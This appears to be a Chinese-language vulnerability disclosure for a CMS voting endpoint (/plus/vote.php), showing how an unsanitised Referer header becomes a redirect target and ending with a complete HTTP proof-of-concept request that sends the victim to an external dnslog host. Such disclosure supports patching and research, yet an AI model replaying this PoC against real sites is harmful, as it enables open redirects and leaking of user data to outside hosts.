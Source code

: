 HTTP_REFERER可伪造注入造成的服务器信息泄露

路由地址： /plus/vote.php 

找到可控变量 $HTTP_REFERER;

 ![img](images1/图片1.png)

分析代码其中 $ENV_GOBACK_URL = $_SERVER['HTTP_REFERER'] 用于记录用户来源页，并在出错时作为跳转地址。由于该值直接使用用户可控的 Referer，若在 ShowMsg() 中被用作跳转地址，可能导致 开放重定向（Open Redirect） 或 信息外带（Referer 外带） 漏洞

访问页面 http://zm.cms/plus/vote.php?aid=1

  ![img](images1/图片2.png)

 

分析代码
 ![img](images1/图片3.png)
 

当dopost=view时，才会进入循环。

  ![img](images1/图片4.png)

同时，isallow=1时会直接跳转$loginurl，所以isallow不能为1

尝试构造数据
 ![img](images1/图片5.png)
 

 

 

 

 

 

发现跳转到dnslog

  ![img](images1/图片6.png)

Poc：

GET /plus/vote.php?aid=1&dopost=view&isallow=0 HTTP/1.1

Host: zm.cms

Pragma: no-cache

Cache-Control: no-cache

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: PHPSESSID=t4u664huh7ff25aef70koup9ob

referer: http://irines.dnslog.cn

Connection: close
